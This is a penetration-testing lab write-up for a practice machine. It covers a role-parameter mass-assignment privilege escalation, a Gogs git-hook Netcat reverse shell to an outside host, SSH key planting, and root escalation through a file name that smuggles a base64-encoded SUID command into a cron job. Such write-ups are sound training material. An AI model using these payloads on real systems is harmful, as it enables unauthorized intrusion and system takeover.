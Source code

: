```yaml
---
tags:
- gogs
- git-hook
- base-p
- api
created: 2024-04-01
lastmod: 2024-04-01
published: 2024-04-01
image:
description: 
---
```

#### Enumeration

>[!code] Enumerate the ports
>- rustscan -a $ip
>
>![Pasted image 20240609145513](Pasted%20image%2020240609145513.png)

>[!code]- Note the web server at port 8000 (a Gogs service)
>- A Gogs service:
>
>![Pasted image 20240610045354](Pasted%20image%2020240610045354.png)
#### Local.txt
##### Find login credentials for the Gogs service

>[!code]- Navigate to the web server on port 80 (a notes.pg service)
>We're met with a login page:
>>[!code]- Screenshot of the login page
>>![Pasted image 20240610043302](Pasted%20image%2020240610043302.png)

>[!code]- Create an account and note the POST payload
Note the POST data used when creating an account:
>```powershell
>authenticity_token=pR8JHMdHN-duxwY2UT7Kd5JPwOz61k5fcjR79C-tPYT87LDqLvI3VgylAkUhINhKxz9W9nZYUMhAcBXyFVNL4g&user%5Busername%5D=new_user&user%5Bpassword%5D=new_password&user%5Bpassword_confirmation%5D=new_password&button=
>```

>[!code]- Discover that we don't have access to all the posted notes on the website
>- After creating a note we see we can access it at http://assignment.pg/notes/6
>- So there must be another 5 notes
>- We are told we have _Insufficient rights!_ to access ../notes/1
>
>>[!code]- Create a new note
>>![Pasted image 20240610044141](Pasted%20image%2020240610044141.png)
>
>>[!code]- Note the URL of the created note (.../notes/6)
>>![Pasted image 20240610044202](Pasted%20image%2020240610044202.png)
>
>>[!code]- Cannot access .../notes/1
>>![Pasted image 20240610044356](Pasted%20image%2020240610044356.png)

>[!Exploit]- Priv Esc 1. Find leaked credentials for another account
>- The _members_ page includes the POST payload of a created account.
>- It suggests an account has the username _forged_owner_:_forged_owner_
>
>>[!code]- The members page
>>![Pasted image 20240610043459](Pasted%20image%2020240610043459.png)

>[!exploit]- Priv Esc 2. Abuse the _role_ attribute when creating a new account
>- When browsing our profile information, we see there is a _role_ attribute which equals _member_.
>- In contrast, the _role_ attribute for the _jane_ account is _owner_.
>- This suggests when creating a new account we can set this role attribute to owner.
>
>>[!code]- Profile of our account
>>![Pasted image 20240611045102](Pasted%20image%2020240611045102.png)
>
>>[!code]- Profile of the _jane_ account
>>![Pasted image 20240611045138](Pasted%20image%2020240611045138.png)
>
>So, when creating a new account (_forged_owner_), we can edit the payload to make our role be an _owner_:
>```powershell
>authenticity_token=oPR93X4UzlLdlPeg_Aek9v3XDDJLLoL3hXS8pHLwzOPz8ER61j8nzjESjr4Tsq-_VGRhZBVCZ9TSr9VZqIe5YQ&user[username]=forged_owner&user[role]=owner&user[password]=forged_owner&user[password_confirmation]=forged_owner&button=
>```

>[!code]- Login as _forged_user_ and get access to note 1
>- It appears to contain credentials for the Gogs service (running at port 8000):
>
>>[!code]- Note 1
>>![Pasted image 20240610044811](Pasted%20image%2020240610044811.png)

>[!success]- Obtain credentials `jane`:`svc-dev2022@@@!;P;4SSw0Rd`
##### Obtain a reverse shell via the Gogs service

>[!code]- Login to Gogs and create a new repository
>Create a new repository
>>[!code]- Create a new repository
>>![Pasted image 20240610045601](Pasted%20image%2020240610045601.png)

>[!exploit]- Exploit - We can edit the _update_ Git Hook to execute a reverse shell
>Update the 'update' Git Hook so that it executes a reverse shell.
>- The code within the update Git Hook will execute when the repository is updated, eg when something it committed to it.
>- The chosen reverse shell is [Netcat Busybox](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-busybox)
>
>>[!code]- Adding a reverse shell into the update Git Hook
>>![Pasted image 20240610045801](Pasted%20image%2020240610045801.png)
>
>>[!code]- Netcat Busybox reverse shell
>>```bash
>>rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
>>```

>[!code]- Clone the repository to execute the Git Hook
>To update the repository we can add a file to the repository:
>```bash
>$ git clone http://assignment.pg:8000/jane/test.git
>$ cd test
>$ touch README.md
>$ git init
>$ git add README.md
>$ git commit -m "first commit"
>```
>___
>
>Setup a listener on Kali:
>```bash
>$ nc -lvnp 1234
>```
>___
>
>Push the changes to the repository and catch the reverse shell with the listener:
>```bash
> git push origin master
>```

>[!success]- Obtain local.txt
>After receiving our reverse shell, we can find local.txt:
>![Pasted image 20240610053205](Pasted%20image%2020240610053205.png)

>[!code]- Get SSH access as Jane
>Create the authorized_keys folder on victim:
>```bash
>$ cd /home/jane/.ssh/
>$ touch authorized_keys
>```
>Copy my public key on Kali into the authorized_keys files on victim:
>```bash
>bubbleman@kali>$ cat id_ed25519.pub
>$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICht3Ccu4rTtNKLaGqJzTTqFu7MwpBQuPpftcfBYADxn bubbleman@kali' > authorized_keys
>```
>SSH into victim as jane:
>```bash
>bubbleman@kali>$ ssh jane@192.168.235.224 -i ~/.ssh/id_ed25519
>```
#### Proof.txt

>[!code]- Run pspy and find a cron job running a vulnerable find command
>- A script is executing a vulnerable command as root
>
>>[!code]- Cron job
>>![Pasted image 20240612044104](Pasted%20image%2020240612044104.png)
>
>We have write permissions on the /dev/shm/ folder:
>>[!code]- /dev/shm/ permissions
>>![Pasted image 20240612044327](Pasted%20image%2020240612044327.png)

>[!exploit]- Exploit - Create a malicious file for the find command
>- The cron job finds all files within the _/dev/shm/_ directory and passes them to the _rm_ command which executes them
>- We can create a new file which adds SUID permissions to the _/bin/bash_ file (ignore the backslash before the double equals sign)
>
>```bash
>jane@assignment:/tmp$ touch /dev/shm/'$(echo -n Y2htb2QgdStzIC9iaW4vYmFzaA\==|base64 -d|bash)'
>```
>
>>[!code]- The decoded base64 string
>>![Pasted image 20240611052054](Pasted%20image%2020240611052054.png)
>
>This would cause the cron script to execute:
>```bash
>sh -c 'rm $(echo -n Y2htb2QgdStzIC9iaW4vYmFzaA\==|base64 -d|bash)'
>```
>After creating the file, /dev/shm/ contains:
>>[!code]- /dev/shm with the malicious file
>>![Pasted image 20240612045538](Pasted%20image%2020240612045538.png)
>
>The permissions of the /bin/bash change after executing:
>>[!code]- /bin/bash permission change
>>Before:
>>![Pasted image 20240612045037](Pasted%20image%2020240612045037.png)
>>After:
>>![Pasted image 20240612045606](Pasted%20image%2020240612045606.png)
>
>Now we can execute bash with the permissions of the owner (**-p**):
>
>![Pasted image 20240612045719](Pasted%20image%2020240612045719.png)

>[!success]- Obtain proof.txt
>
>![Pasted image 20240612045907](Pasted%20image%2020240612045907.png)




